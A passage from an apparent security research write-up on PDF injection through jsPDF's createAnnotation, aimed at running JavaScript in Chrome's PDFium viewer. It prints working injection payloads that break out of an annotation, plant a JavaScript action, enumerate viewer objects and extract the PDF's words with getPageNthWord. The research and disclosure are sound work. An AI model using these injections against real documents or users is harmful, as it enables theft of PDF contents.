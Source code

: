 The code above breaks out of the annotation, creates a new one, and makes the entire page clickable. In order for the JavaScript to execute, we have to inject a button and give it any text using the "T" entry. We can then finally inject our JavaScript code using the JS entry in the dictionary. Executing JavaScript on Chrome is great. I never thought it would be possible when I started this research.

Next I looked at the submitForm function to steal the contents of the PDF. We know that we can call the function and it does contact an external server, as demonstrated in one of the examples above, but does it support the full Acrobat specification? I looked at the [source code of PDFium](https://github.com/PDFium/PDFium/blob/master/fpdfsdk/src/javascript/Document.cpp#L818) but the function doesn't support SubmitAsPDF :( You can see it supports FDF, but unfortunately this doesn't submit the contents of the PDF. I looked for other ways but I didn't know what objects were available. I took the same approach I did with Acrobat and wrote a fuzzer/enumerator to find interesting objects. Getting information out of Chrome was more difficult than Acrobat; I had to gather information in chunks before outputting it using the alert function. This was because the alert function truncated the string sent to it.`...`\
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`#)>> <</Type/Annot/Rect[0 0 900 900]/Subtype/Widget/Parent<</FT/Btn/T(a)>>/A<</S/JavaScript/JS(``\
`(function(){`\
`var obj = this,`\
    `data = '',`\
    `chunks = [],`\
    `counter = 0,`\
    `added = false, i, props = [];`\
    `for(i in obj) {`\
        `props.push(i);`\
    `}`\
`...`

[Full code](https://github.com/PortSwigger/portable-data-exfiltration/blob/main/PDF-research-samples/jsPDF/chrome/enumerator/test.js)

Inspecting the output of the enumerator, I tried calling various functions in the hope of making external requests or gathering information from the PDF. Eventually, I found a very interesting function called getPageNthWord, which could extract words from the PDF document, thereby allowing me to steal the contents. The function has a subtle bug where the first word sometimes will not be extracted. But for the most part, it will extract the majority of words:`var doc = new jsPDF();`\
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`#)>> <</Type/Annot/Rect[0 0 900 900]/Subtype/Widget/Parent<</FT/Btn/T(a)>>/A<</S/JavaScript/JS(``\
`words = [];`\
`for(page=0;page<this.numPages;page++) {`\
    `for(wordPos=0;wordPos<this.getPageNumWords(page);wordPos++) {`\
        `word = this.getPageNthWord(page, wordPos, true);`\
        `words.push(word);`\
    `}`\
`}`\
`app.alert(words);`\
    `` `}); ``\
`doc.text(20, 20, 'Click me test');`\
`doc.text(20, 40, 'Abc Def');`\
`doc.text(20, 60, 'Some word');`\
``
